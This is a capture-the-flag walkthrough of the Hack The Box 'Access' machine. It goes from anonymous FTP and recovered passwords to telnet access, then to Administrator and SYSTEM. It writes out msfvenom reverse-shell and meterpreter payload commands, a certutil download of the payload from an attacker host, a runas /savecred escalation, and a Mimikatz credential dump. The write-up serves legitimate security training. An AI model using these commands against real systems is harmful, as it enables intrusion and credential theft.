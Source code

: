 ```yaml
---
description: https://www.hackthebox.eu/home/machines/profile/156
---
```


# Access

## Initial Nmap scan

```
nmap -A -T4 10.10.10.98

PORT   STATE  SERVICE VERSION
21/tcp open   ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
| ftp-syst: 
|_  SYST: Windows_NT
23/tcp open   telnet?
53/tcp closed domain
80/tcp open   http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Anonymous login is allowed on port 21 so we can take a look here. As port 80 is running we can start `Gobuster` first just so we make good use of time.

![Running Gobuster](<../../../.gitbook/assets/image (17) (1) (1).png>)

## FTP

Logging in as anonymous on FTP we find two files in the "backups" and "Engineer" folders. Its important to take note of what the output is telling us when grabbing the backup.mdb file as it informs us the file may not have transferred correctly.

![](<../../../.gitbook/assets/image (19) (1) (1).png>)

I came across the following link which points us in the right direction on how to best download particular file types from FTP: [https://www.jscape.com/blog/ftp-binary-and-ascii-transfer-types-and-the-case-of-corrupt-files](https://www.jscape.com/blog/ftp-binary-and-ascii-transfer-types-and-the-case-of-corrupt-files)

We should attempt to download both files again issuing the `binary` command before download the files. As per the above link the `binary` command should be issued before downloading the following file types:

* image files (e.g. .jpg, .bmp, .png)
* sound files (e.g. .mp3, .avi, .wma)
* video files (eg. .flv, .mkv, .mov, .mp4),
* archive files (e.g. .zip, .rar, .tar)
* other files (e.g. .exe, .doc, .xls, .pdf, etc.)

Firstly I tried to open the ZIP file with `John` as its password protected however, was unable to find a password in the rockyou.txt wordlist. Before exploring any other wordlists I will check out the backup.mdb file.

We have multiple ways of extracting the information from this file and in this instance we will use the following [https://www.mdbopener.com](https://www.mdbopener.com)

After upload the file I found some interesting information in the "auth\_users" table.

![](<../../../.gitbook/assets/image (20) (1) (1).png>)

First thing I tried was the credentials on the zip file. The password "access4u@security" allowed me to extract the ZIP file into a PST file. We can then use the Linux command `readpst <file>` to convert this into a MBOX file.

![](<../../../.gitbook/assets/image (21) (1) (1).png>)

We can run `cat` on the mbox file and we find the following information:

![](<../../../.gitbook/assets/image (22) (1) (1).png>)

From above we gain the following information

Email accounts , possible user account and the password 4Cc3ssC0ntroller. I compiled gathered passwords and potential users accounts and ran these against Hydra.

![](<../../../.gitbook/assets/image (23) (1) (1).png>)

Looks like we have some valid credentials against Telnet. After logging in with Telnet we gain access as the user "security"

![](<../../../.gitbook/assets/image (24) (1) (1).png>)

From here we can `cd` to the Desktop and grab the user flag.

The telnet shell is not too nice to use so I created a reverse TCP shell in `msfvenom` and uploaded it with `certutil.exe`When attempting to execute the shell we was blocked by Group Policy.

```
msfvenom -p windows/x64/shell/reverse_tcp LHOST=0.0.0.0 LPORT=4444 -f exe > shell.exe
```

Lets set up a Python HTTP server on the directory where the payload has been created.

![](<../../../.gitbook/assets/image (28) (1) (1).png>)

Now we can run the following command to download the payload onto the Windows machine.

```
certutil.exe -urlcache -split -f "http://0.0.0.0/shell.exe
```

From here I attempted to run the payload and was stopped by Group Policy.

![](<../../../.gitbook/assets/image (25) (1) (1).png>)

As Group Policy is enabled and the server has a large amount of updates installed it may be worth us looking for privilege escalation through misconfiguration.

After some standard enumeration checks we see that when running `cmdkey /list` that the Administrator has stored credentials.

![](<../../../.gitbook/assets/image (26) (1) (1).png>)

Lets run `net user` to see if a password is required for this account:

![](<../../../.gitbook/assets/image (27) (1) (1).png>)

As we can see "Password required" is set to "No" so we can issue commands on behalf of the local administrator account without having the password. We should now be able to execute our shell using the `runas`command.

Originally I tried this next part using a `netcat` handler but, every time I got a connection back the shell was unstable or simply did not show any output after the initial connection success message. At this point I instead decided to go for a meterpreter shell handler.

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=0.0.0.0 LPORT=4444 -f exe > met.exe
```

I rqn the payload and uploaded it to the Windows Server and executed it as admin with the following command:

```
runas /savecred /noprofile /user:ACCESS\Administrator met.exe
```

We are now connected as the Administrator. I then used the `getsystem` command to gain shell as "NT AUTHORITY / System". At this point I was expecting to grab the root flag on the administrators Desktop. Instead the root.txt file was encrypted using EFS and I kept getting permission denied when attempting to read the contents.

I reset the box and tried again and got the same issue. I was unable to work out how to remove the EFS from the file even when running as System and Administrator. the Cipher thumbprint for the Administrator account and the Cipher used on the root.txt file was the same and I was still unable to remove the encrpytion.

I was unsure if how we was connecting with the reverse shell might be having any effect on the file so from here I loaded `Mimikatz` into the shell and dumped all the credentials.

We can load this in Meterpreter using the `load kiwi` command. We can then run `creds_all` to get the following output:

![](<../../../.gitbook/assets/image (29) (1) (1).png>)

We should now be able to start a fresh telnet session using these credentials.

![](<../../../.gitbook/assets/image (216) (1).png>)
